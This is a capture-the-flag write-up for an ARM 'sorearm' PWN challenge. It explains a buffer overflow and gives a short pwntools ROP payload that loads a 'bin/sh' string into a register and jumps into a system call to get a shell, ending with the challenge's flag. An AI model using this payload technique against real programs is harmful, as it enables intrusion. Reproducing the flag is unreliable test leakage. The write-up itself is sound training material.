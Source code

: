 # sorearm

## Information
**Category:** |
--- | 
PWN|

## Solution
Here we got a ARM binary, after decompile it with IDA, we can see the main function is like this:
![Alt text](attachments/main_fun.png)

And we can see it call `read` which is vulnerable to bof. And in the compiler we can see another function
![Alt text](attachments/a_fun.png)
![Alt text](attachments/b_fun.png)

We can see at the b function, it call `system` with `id` as parameter. So we need to pass a `bin/sh` from a function to b function. And we can see `bin/sh` is stored on the binary

First we need to know ARM calling convention
![Alt text](attachments/arm.png)

The idea is using the rop to pass the `bin/sh` to `R3` registers, and then use the rop to move the `R3` to `R0` and call `system` with `R0` as parameter

Here, we have the `bin/sh` string and gadget that control `R3`, and `PC`. `PC` is the register that store the next instruction address
```python
POP_R3_R4_R7_PC = 0x00010527 #pop {r3, r4, r7, pc};
BINSH = 0x0001062c #bin/sh

p = cyclic(28)
p += p32(POP_R3_R4_R7_PC) + p32(BINSH) + p32(0) + p32(0) + p32(exe.sym.b+10)
```
So we can create a payload that use the rop to pass the `bin/sh` to `R3`, `0` and `0` to `R4` and `R7` and then jump to the `b` function 


> CJ2023{6fb2ad4fe1019c980a3d67b6754733ec}